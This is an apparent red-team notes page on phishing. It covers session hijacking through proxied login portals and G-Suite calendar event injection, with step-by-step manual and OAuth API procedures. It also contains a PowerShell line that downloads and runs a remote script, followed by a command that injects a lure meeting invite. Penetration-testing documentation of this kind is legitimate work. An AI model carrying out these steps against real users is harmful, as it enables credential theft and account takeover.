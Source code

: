 ```yaml
---
### The title for the content.
title : "Phising"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "sql injection"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Gaining access through people."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "sql-injection"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
tags : ["Phising"]
---
```


## Phising

Misconfigurations and vulnerable software are not the only way into a targets network. Phishing can be a very valuable wrench in your toolkit, its perfect to gather credentials, sessions or even shells.

### Session Hijack

Steal creds and/or session cookies. Can be useful when client has good prevention against shells.

Email a link to a target employee pointing to a cloned/proxied auth portal (Microsoft Online(O365, Azure), G-suite. AWS Console). When they auth they get a real session cookies, and so do we.

Tools: [Evilginx2](https://github.com/kgretzky/evilginx2), [Modlishka](https://github.com/drk1wi/Modlishka) # MOVE TO OWN TOOL PAGE

When we get session we need to act fast and setup persistence.

### G-suite

G-Suite allowed for Calendar Event Injection. This allows a attacker to silently (without the need for a e-mail by using the API) inject a calendar entry to the users calender. This bypasses the "Don't auto-add" options. Doing something like this will create urgency with a reminder notification.

#### Manual

This can be prevented by setting 'Event settings -> Automatically add invitations' to 'No, only show invitations to which I have responded.'

1. Create a new gmail account with a convincing name
2. Prepair your payload of choice and make it available externally (for example with pwndrop)
3. Open `https://calendar.google.com/calendar/` while logged into your new account.
4. Create a new calendar event, make sure to set a reminder.  
![Calendar Event Injection](images/g-suite-cal-injection01.png)  
5. Ensure you click do not send.  
![Calendar Event Injection](images/g-suite-cal-injection02.png)  
6. The user will recieve a notification when the 'meeting' is supposed to happen.  
![Calendar Event Injection](images/g-suite-cal-injection03.png)  

![Calendar Event Injection](images/g-suite-cal-injection04.png)  

##### API

1. logon into the account you want to inject as  
2. open `https://console.developers.google.com/flows/enableapi?apiid=calendar&pli=1`  
3. Select Project and agree the ToS    
![Calendar Event Injection](images/g-suite-cal-injection_api_01.png)  
4. On the "Add credentials to your project" page click cancel.  
5. At the top of the page, select the "OAuth consent screen" tab. Select an Email address, enter a Product name if not already set, and click the Save button.    
![Calendar Event Injection](images/g-suite-cal-injection_api_02.png)  
6. Select the Credentials tab, click the Create credentials button and select OAuth client ID.    
![Calendar Event Injection](images/g-suite-cal-injection_api_03.png)  
7. Select the application type Web application, under "Authorized redirect URIs" paste in the following address: `https://developers.google.com/oauthplayground`. Then, click the Create button.  
![Calendar Event Injection](images/g-suite-cal-injection_api_04.png)  
8. Copy your "Client ID" and "Client Secret".  
9. Navigate here: `https://developers.google.com/oauthplayground/`.  
10. Click the "gear icon" in the upper right corner and check the box to "Use your own OAuth credentials". Enter the OAuth2 client ID and OAuth2 client secret in the boxes.  
11. Make sure that "OAuth flow" is set to Server-side, and "Access Type" is set to offline.  
![Calendar Event Injection](images/g-suite-cal-injection_api_05.png)  
12. Select the "Calendar API v3" dropdown and click both URLs to add them to scope. Click Authorize APIs.  
![Calendar Event Injection](images/g-suite-cal-injection_api_06.png)  
13. Select the account you want to authorize, then click Allow.  
![Calendar Event Injection](images/g-suite-cal-injection_api_07.png)  
(If there is an error such as "Error: redirect_uri_mismatch" then it’s possible the changes haven’t propagated yet. Just wait a few minutes, hit the back button and try to authorize again.).  
![Calendar Event Injection](images/g-suite-cal-injection_api_07-2.png)  
14. You should now be at "Step 2: Exchange authorization code for tokens." Click the "Exchange authorization code for tokens button". The "Access token" is the item we need for accessing the API. Copy the value of the "Access token".  
![Calendar Event Injection](images/g-suite-cal-injection_api_08.png)  
P.S. The "Access token" expires after 3600 seconds.  

```powershell
PS C:\Users\justin-p> iex((iwr https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1).content)
PS C:\Users\justin-p> Invoke-InjectGEventAPI -PrimaryEmail Injector@gmail.com -AccessToken 'TOKEN' -Targets "InjectToMe@gmail.com" -StartDateTime 2020-09-02T15:20:00 -EndDateTime 2020-09-02T15:30:00 -EventTitle "Company Meeting" -EventDescription "Please review the agenda at the URL below prior to the meeting. https://ElRandoUrl" -EventLocation "Zoom app goes Bzzzzzzzz"
```

### Remote Access

Try to comprise workstations. This would (depending on the user) give access to internal and other cloud resources. Allows us to steal tokens from disk, preform session hijack/riding, start keyloggers and pivot in the network from this entry point.

### Related pages

{{< related_pages_table tag="Phising" >}}
